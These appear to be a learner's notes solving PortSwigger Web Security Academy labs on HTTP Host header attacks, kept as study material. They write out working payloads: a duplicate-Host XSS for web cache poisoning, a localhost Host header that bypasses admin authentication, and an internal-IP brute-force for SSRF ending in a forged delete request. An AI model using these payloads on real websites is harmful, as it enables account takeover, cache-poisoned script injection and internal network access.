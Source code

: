 # HTTP Host header attacks
https://portswigger.net/web-security/host-header

# How to identify and exploit HTTP Host header vulnerabilities
https://portswigger.net/web-security/host-header/exploiting

How to identify and exploit HTTP Host header vulnerabilities
Check for flawed validation
Inject duplicate Host headers
Supply an absolute URL
Add line wrapping ( by indentation)
Inject host override headers (X-Forwarded-Host / X-Host / X-Forwarded-Server / X-HTTP-Host-Override / Forwarded)


1. <!-- Lab: Web cache poisoning via the Host header -->
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests
 To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser. 

 xss shit

 1 . change original HH - observe 500 failed
 2 . add another HH and change value to test - observe reflection in response
 3 . experiment with different values until payload:

    Host: 0a18008d04cfbdb1c061c9350092009a.web-security-academy.net
    Host: blah"onerror=alert(document.cookie)//

note:
request field:
Cache-Control: max-age=0

response fields:
Cache-Control: max-age=30
Age: 28
X-Cache: hit

material:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control


# CACHEXSSED


2. <!-- Lab: Host header authentication bypass -->
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass

To solve the lab, access the admin panel and delete Carlos's account. 

1 . request admin panel - observe 401 unauthorised:
    GET / HTTP/1.1
    Host: 0ab2006f037c2dbbc013efc9004f0026.web-security-academy.net

response:
    HTTP/1.1 401 Unauthorized

2 . change Host - experiment different values:
    127.0.0.1 - fails

payload:
    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost




3. <!-- Lab: Routing-based SSRF -->
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf

require collaborator? just for first stage
skip testing via collaborator

send GET /admin /HTTP1.1 to intruder and change Host filed to 192.168.0.x - mark x with payload marker (§x§):

GET /admin HTTP/1.1
Host: 192.168.0.§0§

use intruder payload "number" and set:
from: 0
to: 255
step: 1

find the only response that is not 504 and send to repeater

send and observe we get admin panel in response with delete user interface

request in browser and send delete request - fail and research in proxy
observe host changed back to original - change to local adress and try again

# portswigger solution:

    in admin panel research delete form:
    observe method: POST
    observe path: admin/delete 
    observe required fields:
    csrf - sVn2OQMP3K1id3suCsKbb2WgwH1iA8KU
    username - 

resend message to repeater and change to craft a valid delete request:

    POST /admin/delete HTTP/1.1
    Host: 192.168.0.49
    ..

    csrf=sVn2OQMP3K1id3suCsKbb2WgwH1iA8KU&username=carlos


# DELETED



4. <!-- Lab: SSRF via flawed request parsing -->
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing

 To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos. 

require collaborator? only for verification of vulnarbility









